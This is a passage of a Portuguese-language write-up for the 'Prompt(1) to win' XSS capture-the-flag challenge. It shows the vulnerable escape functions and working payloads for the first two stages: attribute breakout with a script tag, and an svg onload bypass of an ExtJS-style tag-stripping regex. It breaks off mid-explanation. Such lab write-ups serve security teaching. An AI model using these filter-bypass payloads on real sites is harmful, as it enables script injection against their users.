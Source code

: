 # Prompt(1) to win

###### Solved by @milelaraia

Este é um desafio de XSS voltado para a utilização de técnicas de injeção em código JavaScript. O mesmo contém 15 fases com diferentes tipos de filtros que devem ser desviados, além disso o comando prompt(1) deve ser executado para concluir as tarefas.

## About the Challenge

O desafio `Prompt(1) to win` fornece 15 fases que aumentam de dificuldade gradativamente. O objetivo consiste em exigir que o atacante encontre meios para contornar os filtros de input impostos em códigos de JavaScript e além de executar o código prompt(1).

## Solution

#### Desafio 0: Injeção via Concatenação Direta em Atributo HTML
- Código vulnerável:
[![imagem-2025-05-12-001458870.png](https://i.postimg.cc/J0G6ht67/imagem-2025-05-12-001458870.png)](https://postimg.cc/T5vq72vB)

```bash
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
- Payload funcional:
```bash
"><script>prompt(1)</script>
```
- Explicação:

A vulnerabilidade ocorre quando a entrada do usuário é inserida diretamente no atributo value de uma tag HTML, sem sanitização ou escape. Um atacante pode fechar o atributo com `"`, encerrar a tag com `>`, e injetar uma tag `<script>` maliciosa.
[![imagem-2025-05-12-002654911.png](https://i.postimg.cc/SKy8m3RD/imagem-2025-05-12-002654911.png)](https://postimg.cc/jDFCX8z7)

#### Desafio 1: remoção de tags com regex - ExtJS library
- Código vulnerável:
[![imagem-2025-05-12-003005221.png](https://i.postimg.cc/hjYpzc7S/imagem-2025-05-12-003005221.png)](https://postimg.cc/jwzzBVX9)

```bash
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}        
```
- Payload funcional:
```bash
<svg onload=prompt(1)
```
- Explicação:
